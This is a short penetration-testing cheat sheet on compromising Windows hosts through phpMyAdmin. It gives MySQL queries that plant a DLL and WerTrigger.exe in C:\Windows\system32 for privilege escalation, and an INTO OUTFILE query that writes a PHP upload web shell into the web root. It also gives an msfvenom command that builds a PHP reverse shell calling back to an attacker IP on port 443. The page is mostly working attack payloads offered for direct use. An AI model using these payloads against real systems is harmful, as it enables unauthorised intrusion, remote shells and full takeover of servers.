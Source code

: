 ### default port
80
### default url
http://ip:port/phpmyadmin
### phpmyadmin admin account to get system shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md  
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/2ff1fa35-dabd-4094-b6f1-8c4bfa05b076)   
Now, we are going to use the Privileged Write to move all of these files to C:\windows\system32 using MySQL.
```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/31df7857-e1f2-481d-88af-82142a8d164f)  
Now we can move into C:\windows\system32 and execute WerTrigger.exe

### Uploading shell via phpmyadmin
wamp root directory: C:/wamp/www
```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
Then access http://ip:port/uploader.php
```
msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php
access http://ip:port/shell.php
```
